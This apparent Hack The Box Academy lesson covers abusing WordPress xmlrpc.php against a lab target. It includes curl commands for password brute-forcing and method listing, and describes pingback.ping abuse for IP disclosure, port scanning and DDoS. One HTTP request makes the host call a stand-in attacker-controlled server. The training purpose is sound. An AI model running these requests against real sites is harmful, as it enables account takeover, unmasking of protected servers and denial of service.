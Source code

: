 ﻿It is important to note that`xmlrpc.php` being enabled on a WordPress instance is not a vulnerability. Depending on the methods allowed,`xmlrpc.php` can facilitate some enumeration and exploitation activities, though.

Let us borrow an example from our [Hacking Wordpress](https://academy.hackthebox.com/module/details/17) module.

Suppose we are assessing the security of a WordPress instance residing in _http://blog.inlanefreight.com_. Through enumeration activities, we identified a valid username,`admin`, and that`xmlrpc.php` is enabled. Identifying if`xmlrpc.php` is enabled is as easy as requesting`xmlrpc.php` on the domain we are assessing.

We can mount a password brute-forcing attack through`xmlrpc.php`, as follows.


```shell-session
smoothment@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
 <params>
 <param>
 <value>
 <array><data>
 <value><struct>
 <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
 <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
 <member><name>blogid</name><value><string>1</string></value></member>
 <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
 <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
 </value>
 </param>
 </params>
</methodResponse>
```

Above, you can see a successful login attempt through`xmlrpc.php`.

We will receive a`403 faultCode` error if the credentials are not valid.

```shell-session
smoothment@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>WRONG-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
 <fault>
 <value>
 <struct>
 <member>
 <name>faultCode</name>
 <value><int>403</int></value>
 </member>
 <member>
 <name>faultString</name>
 <value><string>Incorrect username or password.</string></value>
 </member>
 </struct>
 </value>
 </fault>
</methodResponse>
```

You may ask how we identified the correct method to call (_system.listMethods_). We did that by going through the well-documented [Wordpress code](https://codex.wordpress.org/XML-RPC/system.listMethods) and interacting with`xmlrpc.php`, as follows.

```shell-session
smoothment@htb[/htb]$ curl -s -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
 <params>
 <param>
 <value>
 <array><data>
 <value><string>system.multicall</string></value>
 <value><string>system.listMethods</string></value>
 <value><string>system.getCapabilities</string></value>
 <value><string>demo.addTwoNumbers</string></value>
 <value><string>demo.sayHello</string></value>
 <value><string>pingback.extensions.getPingbacks</string></value>
 <value><string>pingback.ping</string></value>
 <value><string>mt.publishPost</string></value>
 <value><string>mt.getTrackbackPings</string></value>
 <value><string>mt.supportedTextFilters</string></value>
 <value><string>mt.supportedMethods</string></value>
 <value><string>mt.setPostCategories</string></value>
 <value><string>mt.getPostCategories</string></value>
 <value><string>mt.getRecentPostTitles</string></value>
 <value><string>mt.getCategoryList</string></value>
 <value><string>metaWeblog.getUsersBlogs</string></value>
 <value><string>metaWeblog.deletePost</string></value>
 <value><string>metaWeblog.newMediaObject</string></value>
 <value><string>metaWeblog.getCategories</string></value>
 <value><string>metaWeblog.getRecentPosts</string></value>
 <value><string>metaWeblog.getPost</string></value>
 <value><string>metaWeblog.editPost</string></value>
 <value><string>metaWeblog.newPost</string></value>
 <value><string>blogger.deletePost</string></value>
 <value><string>blogger.editPost</string></value>
 <value><string>blogger.newPost</string></value>
 <value><string>blogger.getRecentPosts</string></value>
 <value><string>blogger.getPost</string></value>
 <value><string>blogger.getUserInfo</string></value>
 <value><string>blogger.getUsersBlogs</string></value>
 <value><string>wp.restoreRevision</string></value>
 <value><string>wp.getRevisions</string></value>
 <value><string>wp.getPostTypes</string></value>
 <value><string>wp.getPostType</string></value>
 <value><string>wp.getPostFormats</string></value>
 <value><string>wp.getMediaLibrary</string></value>
 <value><string>wp.getMediaItem</string></value>
 <value><string>wp.getCommentStatusList</string></value>
 <value><string>wp.newComment</string></value>
 <value><string>wp.editComment</string></value>
 <value><string>wp.deleteComment</string></value>
 <value><string>wp.getComments</string></value>
 <value><string>wp.getComment</string></value>
 <value><string>wp.setOptions</string></value>
 <value><string>wp.getOptions</string></value>
 <value><string>wp.getPageTemplates</string></value>
 <value><string>wp.getPageStatusList</string></value>
 <value><string>wp.getPostStatusList</string></value>
 <value><string>wp.getCommentCount</string></value>
 <value><string>wp.deleteFile</string></value>
 <value><string>wp.uploadFile</string></value>
 <value><string>wp.suggestCategories</string></value>
 <value><string>wp.deleteCategory</string></value>
 <value><string>wp.newCategory</string></value>
 <value><string>wp.getTags</string></value>
 <value><string>wp.getCategories</string></value>
 <value><string>wp.getAuthors</string></value>
 <value><string>wp.getPageList</string></value>
 <value><string>wp.editPage</string></value>
 <value><string>wp.deletePage</string></value>
 <value><string>wp.newPage</string></value>
 <value><string>wp.getPages</string></value>
 <value><string>wp.getPage</string></value>
 <value><string>wp.editProfile</string></value>
 <value><string>wp.getProfile</string></value>
 <value><string>wp.getUsers</string></value>
 <value><string>wp.getUser</string></value>
 <value><string>wp.getTaxonomies</string></value>
 <value><string>wp.getTaxonomy</string></value>
 <value><string>wp.getTerms</string></value>
 <value><string>wp.getTerm</string></value>
 <value><string>wp.deleteTerm</string></value>
 <value><string>wp.editTerm</string></value>
 <value><string>wp.newTerm</string></value>
 <value><string>wp.getPosts</string></value>
 <value><string>wp.getPost</string></value>
 <value><string>wp.deletePost</string></value>
 <value><string>wp.editPost</string></value>
 <value><string>wp.newPost</string></value>
 <value><string>wp.getUsersBlogs</string></value>
</data></array>
 </value>
 </param>
 </params>
</methodResponse>
```

Inside the list of available methods above, [pingback.ping](https://codex.wordpress.org/XML-RPC_Pingback_API) is included.`pingback.ping` allows for XML-RPC pingbacks. According to WordPress, _a [pingback](https://wordpress.com/support/comments/pingbacks/) is a special type of comment thatâ€™s created when you link to another blog post, as long as the other blog is set to accept pingbacks._

Unfortunately, if pingbacks are available, they can facilitate:

- IP Disclosure - An attacker can call the`pingback.ping` method on a WordPress instance behind Cloudflare to identify its public IP. The pingback should point to an attacker-controlled host (such as a VPS) accessible by the WordPress instance.
- Cross-Site Port Attack (XSPA) - An attacker can call the`pingback.ping` method on a WordPress instance against itself (or other internal hosts) on different ports. Open ports or internal hosts can be identified by looking for response time differences or response differences.
- Distributed Denial of Service Attack (DDoS) - An attacker can call the`pingback.ping` method on numerous WordPress instances against a single target.

Find below how an IP Disclosure attack could be mounted if`xmlrpc.php` is enabled and the`pingback.ping` method is available. XSPA and DDoS attacks can be mounted similarly.

Suppose that the WordPress instance residing in _http://blog.inlanefreight.com_ is protected by Cloudflare. As we already identified, it also has`xmlrpc.php` enabled, and the`pingback.ping` method is available.

As soon as the below request is sent, the attacker-controlled host will receive a request (pingback) originating from _http://blog.inlanefreight.com_, verifying the pingback and exposing _http://blog.inlanefreight.com_'s public IP address.

```http
--> POST /xmlrpc.php HTTP/1.1 
Host: blog.inlanefreight.com 
Connection: keep-alive 
Content-Length: 293

<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>http://attacker-controlled-host.com/</string></value>
</param>
<param>
<value><string>https://blog.inlanefreight.com/2015/10/what-is-cybersecurity/</string></value>
</param>
</params>
</methodCall>
```

If you have access to our [Hacking Wordpress](https://academy.hackthebox.com/module/details/17) module, please note that you won't be able to exploit the availability of the`pingback.ping` method against the related section's target, due to egress restrictions.

